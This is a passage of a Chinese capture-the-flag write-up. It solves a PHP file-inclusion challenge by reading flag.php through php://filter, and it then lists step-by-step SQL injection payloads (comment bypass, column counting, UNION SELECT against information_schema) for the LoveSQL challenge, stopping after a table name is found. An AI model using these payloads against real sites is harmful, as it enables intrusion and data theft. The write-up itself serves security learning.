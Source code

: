 有个action.php的文件，之后抓包访问，有个secr3t.php文件，访问：

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
```

可以和上一题一样，php://filter

payload=?file=php://filter/read=convert.base64-encode/resource=flag.php

解码:

```php+HTML
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{2c021ef6-68a2-4674-bf4d-ca928f144327}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>
</html>

```



## 0x8.[极客大挑战 2019]LoveSQL

不知道为啥，这里只能%23，不能#和--+

```
?username=admin'%23&password=1

?username=admin' order by 3%23&password=1

?username=111' union select 1,2,3%23&password=1
是2和3

?username=111' union select 1,database(),3%23&password=1
数据库名：geek

?username=111' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='geek'%23&password=1
得到可疑表：l0ve1ysq1

```